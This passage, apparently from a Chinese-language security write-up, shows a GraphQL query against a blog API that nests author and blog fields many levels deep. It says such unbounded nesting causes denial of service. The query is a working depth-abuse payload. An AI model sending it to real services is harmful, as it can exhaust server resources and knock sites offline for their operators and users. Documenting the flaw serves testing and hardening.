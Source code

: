 我们可以构造这样的查询，无限套娃导致dos

```
query GetBlogs($blogId: ID, $systemType: String!) {
    blogs(blogId: $blogId, systemType: $systemType) {
        _id
        title
        type
        content
        author {
            name
            blog {
                author {
                    name
                    blog {
                        author {
                            name
                            blog {
                                author {
                                    name
                                    blog {
                                        author {
                                            name
                                            blog {
                                                author {
                                                    name
                                                    blog {
                                                        author {
                                                            name
                                                            blog {
                                                                author {
                                                                       name
                                                                       # and so on...
                                                                }
                                                            }
                                                        }
                                                    }
                                                }
                                            }
                                        }
                                    }
                                }
                            }
                        }
                    }
                }
                title
                createdAt
                publishedAt
            }
        }
        publishedAt
    }
}
```

